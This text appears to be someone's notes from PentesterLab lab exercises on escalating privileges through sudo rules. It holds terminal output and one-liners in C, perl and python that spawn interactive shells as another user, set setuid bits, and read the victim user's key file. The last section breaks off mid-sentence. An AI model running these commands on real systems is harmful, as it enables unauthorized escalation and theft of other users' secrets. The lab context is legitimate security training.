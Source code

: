 
pentesterlab@fb34ccb8e769:/tmp$ sudo -u victim /bin/chmod x+s victim.o
/bin/chmod: invalid mode: 'x+s'
Try '/bin/chmod --help' for more information.
pentesterlab@fb34ccb8e769:/tmp$ sudo -u victim /bin/chmod +xs victim.o
pentesterlab@fb34ccb8e769:/tmp$
pentesterlab@fb34ccb8e769:/tmp$
pentesterlab@fb34ccb8e769:/tmp$ ./victim.o
1340b7d2-76ce-49c0-9343-11cdf223b572
pentesterlab@fb34ccb8e769:/tmp$




this can also be used to create  a shell
int main(void)
{
system("/bin/bash");
}








==================
162
abusing sudo with perl


start a shell
pentesterlab@fc0305cf2170:~$ sudo -u victim /usr/bin/perl -e 'exec("/bin/sh -i")'


execute any command.
pentesterlab@fc0305cf2170:~$ sudo -u victim /usr/bin/perl -e 'exec("cat /home/victim/key.txt")'


==================
163
abusing sudo with python
pentesterlab@5c2cae808bb5:~$ sudo -u victim /usr/bin/python -c 'import subprocess;p=subprocess.call(["/bin/sh","-i"])'




OR
from subprocess import call
call(['uname'])


====================
164


abusing sudo with ruby




, you can start one using the following command:
